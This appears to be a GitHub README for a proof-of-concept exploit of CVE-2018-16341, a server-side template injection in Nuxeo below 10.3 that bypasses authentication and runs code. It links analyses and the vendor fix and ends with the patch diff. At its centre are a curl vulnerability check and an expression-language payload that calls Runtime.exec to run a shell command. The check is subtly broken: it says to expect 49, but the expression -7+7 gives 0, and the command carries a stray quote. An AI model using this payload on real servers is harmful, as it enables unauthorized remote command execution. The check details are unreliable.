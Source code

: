 # CVE-2018-16341

Nuxeo Authentication Bypass Remote Code Execution < 10.3 using a SSTI - CVE-2018-16341

![image](https://user-images.githubusercontent.com/5891788/53368219-6e272b00-3948-11e9-8e08-b919c6cf1bcd.png)

**Detailed analysis (not english)**:
- https://www.freebuf.com/vuls/193000.html
- https://blog.riskivy.com/nuxeo-rce-analysis-cve-2018-16341/

**Security Advisory**:
- https://github.com/nuxeo/nuxeo/commit/eb54a9145c6d8297eba9d7dafc74556e735fa388#diff-cf2094833ef0eea473d03bf6559f1798R97 

**Note**: The version of Nuxeo 9.x is not [supported anymore](https://www.nuxeo.com/legal/supported-versions/) by Nuxeo but a hotfix has been provided for the version 9.x. On my side, the version 9.10 was vulnerable.

---
### The vulnerability

This PoC exploit a Server Side Template Injection (SSTI) in order to achieve the RCE located in the file `NuxeoUnknownResource.java`

- To check if Nuxeo is vulnerable just send this payload and check for the number **49**:
```
curl http://127.0.0.1:8080/nuxeo/login.jsp/pwn${-7+7}.xhtml"
```

- Get the RCE using this payload:
```
${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("touch /tmp/pwn.txt",null).waitFor()}
```

---
Fix

```diff
@@ -94,8 +92,13 @@ public void connect() throws IOException {
 
             @Override
             public InputStream getInputStream() throws IOException {
+                String message = "ERROR: facelet not found";
+                // NXP-25746
+                if (Framework.isDevModeSet() && !path.contains("$") && !path.contains("#")) {
+                    message += " at '" + path + "'";
+                }
                 String msg = "<span><span style=\"color:red;font-weight:bold;\">"
-                        + StringEscapeUtils.escapeHtml4(errorMessage) + "</span><br/></span>";
+                        + StringEscapeUtils.escapeHtml4(message) + "</span><br/></span>";
                 return new ByteArrayInputStream(msg.getBytes());
             }
         }
```
